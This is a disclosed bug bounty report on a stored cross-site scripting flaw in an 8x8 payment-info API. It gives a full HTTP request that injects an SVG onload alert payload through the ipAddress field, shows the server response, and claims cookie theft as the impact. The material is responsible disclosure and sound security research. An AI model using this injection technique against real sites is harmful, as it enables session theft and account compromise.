 # Stored xss at https://█.8x8.com/api/█/ID

## Report Details
- **Report ID**: 2078490
- **URL**: https://hackerone.com/reports/2078490
- **State**: Closed
- **Severity**: high
- **Submitted**: 2023-07-20T23:46:09.074Z
- **Disclosed**: 2023-10-30T17:18:43.999Z

## Reporter
- **Username**: pentestor
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: 8x8-bounty

## Vulnerability Information
## Summary:
hey , 
i found a stored  xss at `https://██████.8x8.com/api/██████mentInfoById/ID` , when i analysis javascript code i understand user can modify her ip address with endpoint `https://███.8x8.com/api/patchPaymentMethod/ID` , next point i understand when we open    `https://████████.8x8.com/api/██████████mentInfoById/ID` server set `Content-Type: text/html;charset=UTF-8` , this was interesting point , then i modify ip address with this request:
```
POST /api/patchPaymentMethod/█████████ HTTP/2
Host: ███.8x8.com
Cookie: ajs_anonymous_id=13b1ab4c-87f5-4dbb-967b-066b6d7efd1e; _gcl_au=1.1.275521026.1689699475; _fbp=fb.1.1689701587161.1730712436; __cf_bm=MloB4oUJmeviUXpE1GRUn8TtqbE4CwVEttuZr9tUrOQ-1689845706-0-AWJDz0q9F1c0CmKcbShEYyS7Qqsfd88Gb9W9YsIXUoHhnP/aHA+wGRccAnb8GxD1HBTGXJ71aHh7XzOojjLP/sg=
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Content-Type: application/json
Content-Length: 112

{
              "ipAddress": "<svg on onload=(alert)(document.domain)>",
"callBackURL":"dssdsd"
            }
```
now i get response : 
```
HTTP/2 400 Bad Request
Date: Thu, 20 Jul 2023 23:30:32 GMT
Content-Length: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Expires: 0
Pragma: no-cache
Strict-Transport-Security: max-age=31536000 ; includeSubDomains
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
X-Gk-Traceid: e97be98a-d5e6-4fce-a6a5-4d5f6d28b02a
X-Regional-Id: usw2-gk-65dc71e19a79
X-Served-Epoch: 1689895832189
X-Xss-Protection: 1; mode=block
Cf-Cache-Status: DYNAMIC
Set-Cookie: __cf_bm=7dklJH6I0nIayzUSs2ga_6bhxG_AZTclwDwaUIaKeBQ-1689895832-0-AQvIhwqEdRP3rLeIkHe1u4gqwspbam+/6s7/WEIOEsrvvvpuOSaaBNi36GsWEVNOGQWbRBz4Z89eCgjOTdOWGv0=; path=/; expires=Fri, 21-Jul-23 00:00:32 GMT; domain=.8x8.com; HttpOnly; Secure; SameSite=None
Server: cloudflare
Cf-Ray: 7e9efe156adf41f9-EWR


```

then i check url : https://█████████.8x8.com/api/██████████mentInfoById/████ 
and i seen ip address updated and █████load successfully executed : 
█████████
  
## Steps To Reproduce:
[add details for how we can reproduce the issue]

  1. open url : https://███.8x8.com/api/████mentInfoById/█████ 
  1. you can see my injected ████████load executed :D 

## Supporting Material/References:
███

## Impact

Stealing cookies and executed javascript in victim browser

## Attachments
No attachments
